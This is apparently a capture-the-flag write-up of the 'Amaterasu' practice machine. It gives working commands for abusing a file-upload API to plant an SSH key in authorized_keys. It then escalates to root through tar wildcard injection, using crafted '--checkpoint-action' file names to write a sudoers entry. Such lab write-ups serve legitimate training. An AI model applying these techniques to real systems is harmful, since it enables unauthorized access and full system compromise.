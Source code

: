 ```yaml
---
title: Amaterasu
date: 2025-08-16
categories: [oscp, pg-play]
tags: [walkthrough, Linux, file-upload, API, tar-wildcard-abuse-privesc] 
image: amater.jpg
media_subpath: /assets/img/posts/2025-08-16-amaterasu/
---
```

# Introduction
In this guide, I discovered an HTTP service running on port 33414 and enumerated its API endpoints using Gobuster. By targeting the file-upload endpoint, I was able to upload files to the server and verified successful uploads via the dir-list endpoint. Leveraging this functionality, I uploaded an RSA public key and connected using the corresponding private key, gaining a foothold on the system.

Once inside, I identified a scheduled root cron job that processed files with wildcard expansion. I crafted a payload exploiting the wildcard handling in the backup script, allowing it to execute arbitrary commands. By placing the payload strategically, the cron job executed it, resulting in a full privilege escalation to root.

## Enumeration

### Host

**192.168.223.249**

## Nmap

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F --min-rate 1000 $IP -oN
```

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open --min-rate 1000 -oN 
```

## Services

### Port 21 (FTP)

I was able to login using default credentials `ftp:ftp`, but couldn’t list directory:

![image.png](image.png)

### Port 25022 (SSH)

## Web

### Port 33414

Version - Werkzeug httpd 2.2.3 (Python 3.9.13)

![image.png](image%201.png)

```bash
gobuster dir -u http://ip:33414/ -w /usr/share/wordlists/dirb/common.txt -t 42 -x pdf,txt,config
```

![image.png](image%202.png)

![image.png](image%203.png)

### Port 40080

Version -  Apache httpd 2.4.53 ((Fedora))

![image.png](image%204.png)

```bash
gobuster dir -u http://ip:40080/ -w /usr/share/wordlists/dirb/common.txt -t 42 -x pdf,txt,config -b 404,403,400
```

![image.png](image%205.png)

## Exploitation

Accessing `info` endpoint:

![image.png](image%206.png)

I can list directories too:

![image.png](image%207.png)

![image.png](image%208.png)

I will use `file-upload` feature and upload a RSA key to the server and then connect to the machine using ssh.

```bash
ssh-keygen -t rsa
```

![image.png](image%209.png)

```bash
curl -i -L -X POST -H "Content-Type: multipart/form-data" -F file="@//home/kali/PG-Practice/Amaterasu/key.pub"  http://ip:33414/file-upload
```

![image.png](image%2010.png)

<aside>
🚨

`@// means that take a local file`

</aside>

Let’s include `filename` field too:

```bash
curl -i -L -X POST -H "Content-Type: multipart/form-data" -F file="@//home/kali/PG-Practice/Amaterasu/key.pub" -F filename="/home/alfredo/.ssh/authorized_keys" http://ip:33414/file-upload
```

![image.png](image%2011.png)

I will capture the request with Burp and change the extension of `.pub` file.

```bash
curl -i -L -X POST -H "Content-Type: multipart/form-data" -F file="@//home/kali/PG-Practice/Amaterasu/key.pub" -F filename="/home/alfredo/.ssh/authorized_keys" http://ip:33414/file-upload --proxy http://127.0.0.1:8080
```

![image.png](image%2012.png)

You can compare the complexity of sending a POST request while uploading file using Burp and curl yourselves.

![image.png](image%2013.png)

Now the file is uploaded:

![image.png](image%2014.png)

Let’s see if it actually uploaded:

![image.png](image%2015.png)

```bash
chmod 600 key
ssh -i key alfredo@ip -p 25022
```

![image.png](image%2016.png)

## Privilege Escalation

I see `restapi` directory in my home folder, I am curios if this application executed in the content of the root in that case we can modify `app.py` with python reverse shell and get a shell.

But no it is executed in the context of `alfredo` user:

![image.png](image%2017.png)

Checking for a scheduled tasks I see:

```bash
cat /etc/crontab
```

![image.png](image%2018.png)

```bash
cat /usr/local/bin/backup-flask.sh
```

```bash
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *
```

Here, I see that directory owned by our user is exported in root `PATH`, and one can think of making a malicious `cd` binary in that directory so root executes it, but the thing is there are some binaries in Linux that we cannot hijack them and they are executed as their original binaries. These are `shell builtins`:

- `cd` – change directory
- `echo` – print text
- `pwd` – print working directory
- `type` – show if a command is builtin or external
- `alias` – create command aliases
- `export` – set environment variables
- `exit` – exit the shell
- `read` – read input from user

I will abuse wildcards for `tar` command here go to `/home/alfredo/restapi` and run the following commands:

```bash
echo 'echo "alfredo ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```

we put a checkpoint here, and when checkpoint is reached it will execute `root.sh` which will put our user into sudoers file with root privileges.

Wait for a cron job to be executed.

```bash
sudo -l
```

![image.png](image%2019.png)

```bash
sudo su
```

![image.png](image%2020.png)
